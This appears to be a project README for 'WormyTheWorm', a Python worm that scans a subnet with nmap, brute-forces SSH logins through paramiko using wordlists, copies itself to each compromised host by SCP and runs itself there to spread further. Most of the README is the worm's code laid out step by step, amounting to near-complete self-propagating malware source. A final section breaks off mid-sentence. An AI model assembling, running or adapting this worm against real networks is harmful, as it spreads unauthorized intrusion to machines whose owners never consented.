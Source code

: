 # WormyTheWorm
___

## Summary: 
> A Python worm that scans & infects a given subnet while replicating itself. 
> Below is a breakdown of the code, including screenshots & descriptions of the processes used. 

## Table of Contents
- [Dependents](#dependents)
- [NMAP](#nmap)
- [Brute Force](#brute-force) 
- [SSH and Paramiko](#ssh-and-paramiko)
- [Try/Except loop for SSH & SCP via Paramiko](#try-except-loop-for-SSH-and-SCP-via-Paramiko)
- [Verifying Output](#verifying-output)
___
## Dependents 
&NewLine; 
```sh
import nmap
import paramiko
import sys
from scp import SCPClient
```

The above must be installed on the local machine for the program to run successfully. Use the below code to install each successfully. 

**Pip:**
```sh
sudo apt install python3-pip
```
**NMap:**
```sh
sudo apt-get install nmap
pip install python-nmap
```
**Paramiko:**
```sh
pip install paramiko
```
**SCP:**
```sh
pip install git+https://github.com/jbardin/scp.py
```

## NMap

NMap is used to scan a given subnet & return all host IPs on the network. 

**NMap Explained**

1. A variable is defined that calls the port scanner method. 
2. **The target subnet is identified - the default port will always be 22 for SSH utilization.**
3. The command line method is initialized. 
```sh
nmScan = nmap.PortScanner()
nmScan.scan('10.0.0.0/24', '22')
nmScan.command_line()
```
1. A list called "networkhosts" is defined, which will contain the IPv4 addresses located on the subnet. 
2. A "for" loop is intialized. This loop iterates through all hosts & stores them via the append method in "networkhosts", defined above. 
```sh
networkhosts = []
for host in nmScan.all_hosts():
    networkhosts.append(host)
print(networkhosts)
```
3. "networkhosts" is printed out on the command line, showing us the list of IPv4 addresses on our subnet.

![IPs on the subnet](./printedipv4.png)

## Brute Force 

The brute force method of username / password cracking takes predefined wordlists & runs all possible combinations against a log-in barrier. The size of the wordlist will effect the success rate, but increased wordlist length correlates to an increase in time. In our example code, small wordlists of four usernames & four passwords are defined for the sake of time, but could be substituted for a longer list (such as rockyou.txt) using the path provided below: 
```sh
/usr/share/wordlists/rockyou.txt
```
The variables used by SSH/Paramiko (explained in further section) are defined in a "for" loop that will ultimately iterate through each host previously amended to "networkhosts". 
```sh
for element in networkhosts:
    host = element
    port = 22
```
The wordlists referenced above are also defined. 
```sh
usernames = ['sam','gavin','stephen','devon']
passwords = ['admin','stephen','penelope','password']
```

## SSH and Paramiko

Paramiko is Python's implementation of SSHv2 proctocol and is the crux of WormyTheWorm's ability to infiltrate hosts on a local network. 

First, two subsequent "for" loops utilize the word lists defined in the "Brute Force" section above. Each "for" loop combination contains a different combination of "users" & "pwords", and SSH is attempted via Paramiko using each one. The variables "username" and "password", which are native to Paramiko, are defined. 

```sh
for user in usernames:
        for pword in passwords:
            username = user
            password = pword
```
Next, the "command" variable is defined. This sequence is executed via the target machine's command line once SSH connection is established. This command in particular performs the following:
1. WormyTheWorm is executed - this is how the worm replicates. Identical code will be executed on the target machine, and the process will begin anew. 
2. A file called "WormyWuzHere" is created. 
3. The line "Haha no code for you :)" is written to the file above. 
4. WormyTheWorm gets deleted.
```sh
command = "./WormyTheWorm && touch 'WormyWuzHere' && echo 'Haha no code for you :)' > WormyWuzHere && rm WormyTheWorm"
```
The first line of the code below creates a new SSHCLient, and the second line allows the script to SSH to a remote server with unknown SSH keys. 
```sh
ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()
```
## Try Except loop for SSH and SCP via Paramiko

A "try block" & an "except block" are used to set a timeout limit & an appropriate response, to increase the speed of Wormy as a whole. 

Within the "try block" the following occurs (in order):
1. ssh.connect is initialized, utlizing the previously defined username, password, and host variables. The timeout is set at 5 seconds. 
2. SCP variable is defined intliazed using the SCPClient via a get_transport request. This allows the WormyTheWorm file to be transported to the host machine in preparation for execution & replication. 
3. An SCP put request that references the first item on the command line (WormyTheWorm executable) is inialized. This step places the file onto to the target machine. 
4. The previously defined command in executed on the target machine. 
5. If the above works as it should within the time limit, a message displaying the host IP & "Success :)" will be displayed. 
```sh
 try:
        ssh.connect(host, port, username, password, timeout=5)
        scp = SCPClient(ssh.get_transport())
        scp.put(sys.argv[0])
        stdin, stdout, stderr = ssh.exec_command(command)
        print(host + ' Success :)')
```
Within the "except block" the following occurs:
1. If the "try block" is unsuccessful, a message displaying the host IP & "Timeout :(" will be displayed. 
```sh
 except:
        print(host + ' Timeout :(')
```

## Verifying Output

After the script runs, the ```ls``` 


The command line shows us a log of each attempt to **gain access to a target using a specific username and password combination.** The image below shows a portion of that log:

![output log](./shortoutput.png)

After the success on 10.0.0.154, Wormy attempts to brute force 10.0.0.188, the next target.


